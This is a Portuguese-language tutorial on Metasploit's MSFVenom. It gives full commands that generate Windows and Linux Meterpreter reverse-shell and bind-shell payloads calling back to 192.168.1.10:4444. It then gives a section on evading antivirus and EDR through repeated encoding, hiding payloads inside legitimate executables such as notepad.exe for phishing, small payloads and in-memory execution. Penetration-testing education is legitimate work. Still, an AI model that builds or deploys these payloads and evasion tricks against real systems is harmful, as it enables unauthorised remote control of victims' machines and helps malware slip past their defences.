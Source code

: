 O **MSFVenom** é uma ferramenta do **Metasploit** usada para gerar payloads e executáveis, combinando as funcionalidades de `msfpayload` e `msfencode`. Ele é essencial em testes de penetração para gerar payloads personalizados que podem ser usados em ataques direcionados.

## Estrutura Básica do MSFVenom

A estrutura básica do comando `msfvenom` é:

bash

Copiar código

`msfvenom -p <payload> LHOST=<IP> LPORT=<Porta> -f <formato> -o <arquivo_saida>`

- **`-p` (Payload)**: Define o tipo de payload, por exemplo, `windows/meterpreter/reverse_tcp`.
- **`LHOST` e `LPORT`**: Define o IP e a porta que serão usados para a conexão reversa.
- **`-f` (Formato)**: Define o formato de saída, como `exe` para Windows, `elf` para Linux ou `raw` para código bruto de shellcode.
- **`-o` (Saída)**: Define o nome do arquivo de saída. Se não especificado, o output será exibido no console.

## Exemplos de Uso do MSFVenom

### Exemplo 1: Payload reverso para Windows

bash

Copiar código

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell_reverse.exe`

### Exemplo 2: Payload de ligação para Linux

bash

Copiar código

`msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf -o bind_shell.elf`

### Exemplo 3: Payload em formato raw (somente shellcode)

bash

Copiar código

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shellcode.bin`

## Parâmetros Adicionais para Personalização

- **`-a`**: Define a arquitetura do payload, como `x86` ou `x64`.
- **`--platform`**: Especifica a plataforma alvo, como `windows`, `linux` ou `osx`.
- **`-e`**: Define o encoder para ofuscação do payload. Exemplo: `-e x86/shikata_ga_nai`.
- **`-i`**: Define o número de vezes que o encoder será aplicado, aumentando a dificuldade de detecção. Exemplo: `-i 5`.
- **`--bad-chars`**: Define caracteres a serem evitados no shellcode, como caracteres nulos `\x00`.
- **`-x`**: Insere o payload em um arquivo template (útil para mascarar o payload em executáveis comuns).

## Técnicas Anti-Detecção

Para evitar a detecção por antivírus e EDR (Endpoint Detection and Response), considere as seguintes técnicas:

### 1. Uso de Encoders

Encoders aplicam uma camada de codificação ao payload, dificultando a detecção por assinaturas. Exemplo:

bash

Copiar código

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o bypassed_shell.exe`

### 2. Template com `-x`

Permite incluir o payload em executáveis legítimos, como um instalador de software, útil em ataques de phishing:

bash

Copiar código

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x notepad.exe -k -f exe -o hidden_shell.exe`

### 3. Ofuscação Avançada

Combine encoders e use formatos alternativos como `raw` ou `hex`, passando o código para scripts que geram executáveis posteriormente.

### 4. Payloads Menores e Códigos Customizados

Payloads menores ou personalizados podem evitar a detecção por assinatura. A opção `-s` limita o tamanho do payload:

bash

Copiar código

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -s 200 -f exe -o small_shell.exe`

### 5. Execução na Memória

Com o `Meterpreter`, é possível carregar e executar o payload diretamente na memória, sem escrita no disco, reduzindo a detecção.

## Dicas Finais para Evitar Detecção

- **Combine múltiplas técnicas**, como encoders e payloads customizados.
- **Teste em ambientes com antivírus** para ajustar as técnicas.
- **Utilize ferramentas pós-exploração do Meterpreter** para minimizar detecção durante a exploração.
